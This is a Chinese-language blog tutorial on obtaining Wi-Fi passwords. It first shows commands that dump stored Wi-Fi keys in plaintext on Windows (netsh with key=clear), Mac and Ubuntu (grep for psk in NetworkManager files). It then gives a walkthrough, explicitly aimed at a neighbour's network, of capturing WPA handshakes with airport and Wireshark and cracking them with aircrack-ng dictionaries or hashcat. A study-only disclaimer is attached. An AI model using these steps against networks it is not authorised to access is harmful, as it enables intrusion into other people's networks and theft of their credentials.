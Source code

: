 ```yaml
---
title: 获取 WI-FI 密码
author: Von
tags: ['System', 'Wifi', 'TCP/IP', 'HTTP']
featuredImage: bg2.jpeg
date: 2019-11-18
---
```

<!-- toc -->

_如何获取你知道/不知道的 wifi 密码_

> 本文仅限于学习，请勿用于非法用途 否则后果作者概不负责

## 获取链接过的 wifi 密码
### Windows:

管理员运行：
```shell
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do  @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```

还有一种方法：可以获取指定名称的wifi信息
step 1:获取所有链接过的wifi名称

```shell
netsh wlan show profile
```
step 2:指定wifi名称获取相关信息( 下面代码中wifi_name 是step 1 中列出的名称 )

```shell
netsh wlan show profile wifi_name key=clear
```

### Mac

打开 `keychain` 钥匙串
选择 系统，种类：密码
通过Wi-Fi名字查看密码

### Ubuntu

从配置文件中获取 psk 的值
```shell
$ sudo grep psk= /etc/NetworkManager/system-connections/*
```

## 如何获取邻居家 wifi 密码
### 环境准备

- 系统：macOs Mojave 双核8G
- 工具：aircrack-ng; wireshark; hashcat 
- 参考链接：[Louis Abraham's](https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html)

### 开始

官网下载：[wireshark](https://www.wireshark.org/download.html)

由于原本就有 [homebrew](https://brew.sh/)，不再重述下载过程。
首先下载 [aircrack-ng](https://www.aircrack-ng.org/)，这里用于暴力破解 Wi-Fi 密码
```shell
brew install aircrack-ng
```

[hashcat](https://hashcat.net/hashcat/) 世界上最快的密码破解程序
```shell
brew install hashcat
```

### 用 wireshark 获取 WPA 包

#### WPA 简介
WPA（英语：Wi-Fi Protected Access），意即“Wi-Fi访问保护”，是一种保护无线网络（Wi-Fi）访问安全的技术标准。

#### Mojave 不能使用 airport 抓包

```shell
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport

sudo airport -s
// Ctrl-C to stop capturing after 2-5 minutes
sudo airport en1 sniff $CHANNEL

```
这个方式简单，但是新的系统不支持，只能通过 wireshark 抓包

#### wireshark 抓包

开启监控模式
![](wireshark.png)

filter:
```shell
eapol or wlan.fc.type_subtype == 0x08
```

抓取 5分钟 左右，保存.pcap

### 爆破
#### 通过 aircrack-ng 暴力破解密码

```shell
aircrack-ng test.pcap -w 密码字典文件
```

![](aircrack.png)

如果有 `WPA (1 handshake)` 则输入前面的编号 `Index number of target network ? 4643`

否则重复上述 wireshark 抓包过程

如果这步成功，成功的关键就在于密码字典，可以在github搜一下，可以找到的字典集我都试过（有上千万的数据了），目前我没有好的可以推荐，因为没有成功破解我邻居的密码:)尬...

#### hashcat 破解

在线转化文件`pcap->hccapx` https://hashcat.net/cap2hccapx/

在我本子上跑温度飙到了 96c 只能放弃


